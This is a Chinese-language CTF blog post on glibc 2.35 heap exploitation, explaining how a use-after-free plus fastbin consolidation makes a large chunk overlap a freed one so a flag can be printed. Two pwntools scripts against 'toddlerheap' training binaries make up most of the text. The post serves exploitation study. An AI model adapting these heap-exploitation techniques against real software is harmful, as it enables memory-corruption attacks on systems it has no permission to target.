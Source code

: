 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35: tcache外的利用手法"
author: wsxk
date: 2025-6-23
comments: true
---
```


- [1. fastbin consolidation](#1-fastbin-consolidation)
  - [1.1 uaf + fastbin consolidation泄露flag](#11-uaf--fastbin-consolidation泄露flag)
    - [1.1.1 变种： uaf + fastbin consolidation + 防止合并的chunk](#111-变种-uaf--fastbin-consolidation--防止合并的chunk)


# 1. fastbin consolidation<br>
## 1.1 uaf + fastbin consolidation泄露flag<br>
场景是：<br>
```
1. 只能申请小于0x400的堆块，存放堆地址的空间只够16次
2. flag位于0x450的某个堆块中
3. 存在uaf漏洞
```
核心思路是**构造fastbin中有一个chunk A（与top chunk相邻），利用fastbin consolidation的机制 + uaf，使flag申请下来的0x450的chunk B的起始地址与A一样。打印flag即可**<br>

```python
from pwn import *

binary_path = "/challenge/toddlerheap_level1.0"
#binary_path = "./toddlerheap_level1.0"
p = process(binary_path)

def malloc(idx,size):
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free(idx):
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def puts(idx):
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

for i in range(8):
    malloc(i,0x70)
for i in range(8):
    free(i)
# gdb.attach(p)
# pause()
p.sendline(b"read_flag")
puts(7)

p.interactive()
```

### 1.1.1 变种： uaf + fastbin consolidation + 防止合并的chunk<br> 
```python
from pwn import *

binary_path = "/challenge/toddlerheap_level2.1"
binary_path = "./toddlerheap_level2.1"

p = process(binary_path)

def malloc(idx,size):
    p.sendline(b"malloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return

def free(idx):
    p.sendline(b"free")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def puts(idx):
    p.sendline(b"puts")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())    
    return

def calloc(idx,size):
    p.sendline(b"calloc")
    p.recvuntil(b"Index: ")
    p.sendline(str(idx).encode())
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    return    

for i in range(8):
    malloc(i,0x70)
for i in range(8):
    free(i)
calloc(8,0x5b0)# fastbin consolidation: 7 equals 8
malloc(9,0x10) # in case of merging
calloc(10,0x5b0) # break the case
malloc(11,0x10) # in case of merging
free(10)
free(8)

# gdb.attach(p)
# pause()
p.sendline(b"read_flag")
puts(7)

p.interactive()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>